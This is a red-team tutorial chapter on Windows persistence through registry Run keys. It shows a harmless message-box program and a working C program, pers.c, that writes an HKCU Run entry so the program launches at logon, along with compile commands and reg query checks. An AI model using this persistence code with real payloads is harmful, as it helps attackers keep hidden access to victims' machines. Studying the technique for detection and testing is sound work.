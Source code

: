 # 05 persistence - registry run keys

Adding an entry to the "run keys" in the registry will cause the app referenced to be executed when a user logs in. These apps will be executed under the context of the user and will have the account's associated permissions level.    

The following run keys are created by default on Windows Systems:     

```powershell
"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run"
"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce"
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce"
```

Threat actors can use these configuration locations to execute malware to maintain persistence through system reboots. Threat actors may also use masquerading to make the registry entries look as if they are associated with legitimate programs.     

Let’s say we have a "malware" `hack.c`:    

```cpp
/*
 * Malware Persistence 101
 * hack.c
 * "Hello, Prishtina!" messagebox
 * author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Hello, Prishtina!","=^..^=", MB_OK);
  return 0;
}
```

Malware compiling:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-03_17-24.png)    

Then, let's create a script `pers.c` that creates registry keys that will execute our program `hack.exe` when we log into Windows:    

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * Windows low level persistence via start folder registry key
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\hack.exe";

  // startup
  LONG result = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (result == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry key. Registry keys can be added from the terminal to the run keys to achieve persistence, but since I love to write code, I wanted to show how to do it with some lines of code.    

Compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-03_17-27.png)    

Then, first of all, check registry keys in the victim’s machine:   

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![img](./img/2024-05-03_17-29.png)    

Then, run our `pers.exe` script and check again:    

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![img](./img/2024-05-03_17-33.png)    

So now, check everything in action. Logout and login again:   

![img](./img/2024-05-03_17-34.png)    

![img](./img/2024-05-03_17-34_1.png)    

![img](./img/2024-05-03_17-35.png)   

Pwn! Everything is worked perfectly :)    

Creating registry keys that will execute an malicious app during Windows logon is one of the oldest tricks in the red team playbooks. Various threat actors and known tools such as Metasploit, Powershell Empire provide this capability therefore a mature blue team specialists will be able to detect this malicious activity.    